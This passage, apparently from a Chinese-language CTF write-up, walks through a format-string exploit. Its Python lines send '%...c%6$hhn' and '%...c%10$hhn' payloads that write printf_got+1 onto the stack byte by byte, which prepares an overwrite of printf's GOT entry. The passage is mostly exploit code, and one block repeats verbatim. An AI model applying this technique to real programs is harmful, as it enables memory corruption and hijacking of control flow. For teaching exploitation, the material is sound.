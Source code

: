 11.  #变更10处的地址，+2  
12.  payload = '%' + str( (stack_addr1 & 0xFF) + 2) + 'c%6$hhn'  
13.  sh.sendlineafter('Try again!\n',payload)  
14.  #写栈14$处的低3字节为0x04  
15.  payload = '%' + str(0x04) + 'c%10$hhn'  
16.  sh.sendlineafter('Try again!\n',payload)  

18.  #变更10处的地址，+3  
19.  payload = '%' + str( (stack_addr1 & 0xFF) + 3) + 'c%6$hhn'  
20.  sh.sendlineafter('Try again!\n',payload)  
21.  #写栈14$处的低4字节为0x08  
22.  payload = '%' + str(0x08) + 'c%10$hhn'  
23.  sh.sendlineafter('Try again!\n',payload)  

接下来，我们要往15处写入printf_got+1的值，那么需要将%10$指向%15$处，也就是14的地址+4

1.  ############在$15处存入printf_got+1################  
2.  #偏移4，指向$15  
3.  stack_addr1 = stack_addr1 + 4  
4.  payload = '%' + str( (stack_addr1 & 0xFF)) + 'c%6$hhn'  
5.  sh.sendlineafter('Try again!\n',payload)  

接下来，就是一样的操作了，在15处写数据**0x804B015**

1.  #写栈15$处的低1字节为0x15  
2.  payload = '%' + str(0x15) + 'c%10$hhn'  
3.  sh.sendlineafter('Try again!\n',payload)  
4.  #变更10处的地址，+1  
5.  payload = '%' + str( (stack_addr1 & 0xFF) + 1) + 'c%6$hhn'  
6.  sh.sendlineafter('Try again!\n',payload)  
7.  #写栈14$处的低2字节为0xB0  
8.  payload = '%' + str(0xB0) + 'c%10$hhn'  
9.  sh.sendlineafter('Try again!\n',payload)  

11.  #变更10处的地址，+2  
12.  payload = '%' + str( (stack_addr1 & 0xFF) + 2) + 'c%6$hhn'  
13.  sh.sendlineafter('Try again!\n',payload)  
14.  #写栈14$处的低3字节为0x04  
15.  payload = '%' + str(0x04) + 'c%10$hhn'  
16.  sh.sendlineafter('Try again!\n',payload)  

18.  #变更10处的地址，+3  
19.  payload = '%' + str( (stack_addr1 & 0xFF) + 3) + 'c%6$hhn'  
20.  sh.sendlineafter('Try again!\n',payload)  
21.  #写栈14$处的低4字节为0x08  
22.  payload = '%' + str(0x08) + 'c%10$hhn'  
23.  sh.sendlineafter('Try again!\n',payload)  

现在，栈里%14$和%15$就布下了我们需要的目标地址了，为了防止出错，我们把%10$处的数据复原

1.  #复原10处的数据  
2.  payload = '%' + str( ((stack_addr1-4) & 0xFF)) + 'c%6$hhn'  
3.  sh.sendlineafter('Try again!\n',payload)  

然后，我们就要一次性的改写printf的GOT表
